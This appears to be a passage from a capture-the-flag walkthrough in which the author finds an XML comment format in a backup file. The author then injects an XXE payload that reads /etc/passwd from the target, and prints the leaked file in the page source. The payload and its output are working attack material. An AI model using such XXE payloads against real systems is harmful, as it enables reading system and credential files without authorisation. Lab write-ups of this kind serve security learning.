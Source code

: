 We have a user Barry who can use SSH, good to know that.

Inside /auth/dontforget.bak we have : 

```shell
┌──(kali㉿kali)-[~]
└─$ cat Downloads/dontforget.bak 
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

We know how to use our textbox ! We have to use this XML syntax.

Let's try to use XML injection.

Using [SecList](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#exploiting-xxe-to-retrieve-files) we find some XML code to read file on a vulnerable target.

I used this one  : 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

In the page source code we have : 

```html
    </form>
        <h3>Comment Preview:</h3><p>Name: Joe Hamd</p><p>Author : Barry Clad</p><p>Comment :<br> root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
```